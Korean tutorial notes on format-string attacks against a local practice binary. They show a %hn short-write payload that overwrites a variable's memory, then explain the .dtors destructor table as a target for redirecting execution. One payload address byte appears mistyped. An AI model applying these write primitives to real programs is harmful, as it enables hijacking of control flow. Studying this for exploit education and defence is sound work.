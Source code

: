<br>

short 쓰기 기법을 사용할 때는 메모리에 쓰는 순서는 중요하지 않음. ```0x08049796```에 먼저 써도 됨.

<br>

```console
0xbfff - 8 = 49143           
0xfd72 - 0xbfff = 15731 


./vuln
$(printf "\x96\x97\x04\x04\x94\x97\x04\x08")
%49143x%4\$hn%15731x%5\$hn


test_val @ 0x08049794 = -1073742478 0xbffffd72
```

<br>
<br>

임의의 메모리 주소에 데이터를 쓸 수 있다는 것은 프로그램의 실행 흐름을 제어할 수 있음을 의미함. 대표적으로 스택 오버플로우의 리턴 주소를 덮어쓰는 방법이 있음.

스택 오버플로우 공격은 특성상 리턴 주소밖에 덮어쓸 수 없지만 포맷 스트링 공격은 임의의 메모리 주소에 데이터를 쓸 수 있으므로 다양한 공격을 할 수 있음.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## 소멸자를 이용한 우회법
<hr style="border-top: 1px solid;"><br>

GNU C 컴파일러를 이용해 컴파일된 이진 프로그램에서는 소멸자<sub>destructor</sub>와 생성자<sub>constructor</sub>를 위한 특수 테이블 섹션인 ```.dtors```와 ```.ctors```를 생성함.

프로그램 종료 시 자동으로 함수가 실행되는 기능은 이진 파일의 ```.dtors``` 테이블 섹션에서 담당을 하는데, 이 섹션은 32비트 주소의 배열로 구성돼있고 맨 마지막에는 NULL 주소가 들어있음.

이 배열은 항상 ```0xffffffff```로 시작하고, 널 주소인```0x00000000```로 끝나며 이 두 주소 사이에는 소멸자 속성으로 선언된 모든 함수의 주소가 포함됨.

<br>

nm 명령어로 소멸자 속성이 부여된 함수와 ```.dtors``` 영역의 주소를 찾을 수 있고, objdump 명령어도 이진 파일의 섹션을 검사할 수 있음.

<br>

```console
nm ./dtors_sample

080495b4 d __DTOR_END__
080495ac d __DTOR_LIST__

0x080483e8 t cleanup  => 소멸자 속성이 부여된 함수
```

<br>
